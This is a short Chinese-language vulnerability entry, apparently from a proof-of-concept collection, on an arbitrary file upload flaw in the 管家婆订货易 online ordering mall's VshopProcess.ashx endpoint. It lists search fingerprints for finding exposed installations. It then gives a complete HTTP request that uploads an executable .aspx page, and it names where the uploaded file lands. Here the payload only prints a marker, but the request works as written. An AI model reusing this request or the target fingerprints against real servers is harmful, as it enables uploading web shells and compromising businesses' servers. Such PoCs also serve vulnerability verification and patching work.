 ﻿# 管家婆订货易在线商城 VshopProcess 任意文件上传漏洞

> 更新时间：2024-03-08

> 漏洞编号：

> 漏洞说明：管家婆订货易，帮助传统企业构建专属的订货平台，PC+微信+APP+小程序+h5商城5网合一，无缝对接线下的管家婆ERP系统，让用户订货更高效。支持业务员代客下单，支持多级推客分销，以客带客，拓展渠道。让企业的生意更轻松。

管家婆订货易在线商城VshopProcess.ashx接口处存在任意文件上传漏洞，恶意攻击者可能利用此漏洞上传恶意文件最终导致服务器失陷。

> 漏洞特征：title="订货易"||title="管家婆分销ERP" || body="管家婆分销ERP" || body="ERP V3"

> 验证脚本：HTTP

```
POST /API/VshopProcess.ashx?action=PostFileImg HTTP/1.1
Accept-Encoding: gzip
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytCOFhbEjc3IfYaY5

------WebKitFormBoundarytCOFhbEjc3IfYaY5
Content-Disposition: form-data; name="fileup1i"; filename="dudesite.aspx"
Content-Type: image/jpeg

<%@ Page Language="C#" %>
<% 
Response.Write("dudesite");
%>

------WebKitFormBoundarytCOFhbEjc3IfYaY5--
```

> 响应代码特征：200

> 响应内容特征：aspx

> 上传文件定位：/Storage/UserFileImg/xxx.aspx

> 验证文件来源：管家婆订货易在线商城 VshopProcess 任意文件上传漏洞.poc

